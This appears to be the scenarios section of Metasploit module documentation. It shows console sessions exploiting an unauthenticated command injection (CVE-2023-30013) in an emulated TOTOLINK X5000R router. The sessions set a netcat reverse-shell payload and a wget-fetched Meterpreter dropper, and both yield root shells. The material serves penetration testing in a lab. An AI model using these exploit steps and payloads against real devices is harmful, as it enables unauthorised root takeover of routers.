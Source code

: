 ## Scenarios
### FirmAE X5000R Router Emulation Unix Command - cmd/unix/reverse_netcat_gaping
```
msf exploit(linux/http/totolink_unauth_rce_cve_2023_30013) > set target 0
target => 0
msf exploit(linux/http/totolink_unauth_rce_cve_2023_30013) > set payload cmd/unix/reverse_netcat_gaping
payload => cmd/unix/reverse_netcat_gaping
msf exploit(linux/http/totolink_unauth_rce_cve_2023_30013) > exploit

[*] Started reverse TCP handler on 192.168.0.2:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.0.1:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 5 seconds.
[*] Elapsed time: 5.71 seconds.
[+] The target is vulnerable. Successfully tested blind command injection.
[*] Executing Unix Command for cmd/unix/reverse_netcat_gaping
[*] Command shell session 12 opened (192.168.0.2:4444 -> 192.168.0.1:34888) at 2023-09-13 21:34:35 +0000

uname -a
Linux 4.1.17+ #28 Sat Oct 31 17:56:39 KST 2020 mips GNU/Linux
whoami
root
pwd
/www/cgi-bin
```
### FirmAE X5000R Router Emulation Linux Dropper - linux/mipsle/meterpreter_reverse_tcp
```
msf exploit(linux/http/totolink_unauth_rce_cve_2023_30013) > set target 1
target => 1
msf exploit(linux/http/totolink_unauth_rce_cve_2023_30013) > set payload linux/mipsle/meterpreter_reverse_tcp
payload => linux/mipsle/meterpreter_reverse_tcp
msf exploit(linux/http/totolink_unauth_rce_cve_2023_30013) > exploit

[*] Started reverse TCP handler on 192.168.0.2:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.0.1:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 6 seconds.
[*] Elapsed time: 6.67 seconds.
[+] The target is vulnerable. Successfully tested blind command injection.
[*] Executing Linux Dropper for linux/mipsle/meterpreter_reverse_tcp
[*] Using URL: http://192.168.0.2:1981/LLNMKYkmtrkWEFo
[*] Client 192.168.0.1 (Wget) requested /LLNMKYkmtrkWEFo
[*] Sending payload to 192.168.0.1 (Wget)
[*] Meterpreter session 13 opened (192.168.0.2:4444 -> 192.168.0.1:34890) at 2023-09-13 21:36:52 +0000
[*] Command Stager progress - 100.00% done (119/119 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.0.1
OS           :  (Linux 4.1.17+)
Architecture : mips
BuildTuple   : mipsel-linux-muslsf
Meterpreter  : mipsle/linux
meterpreter > getuid
Server username: root
meterpreter >
```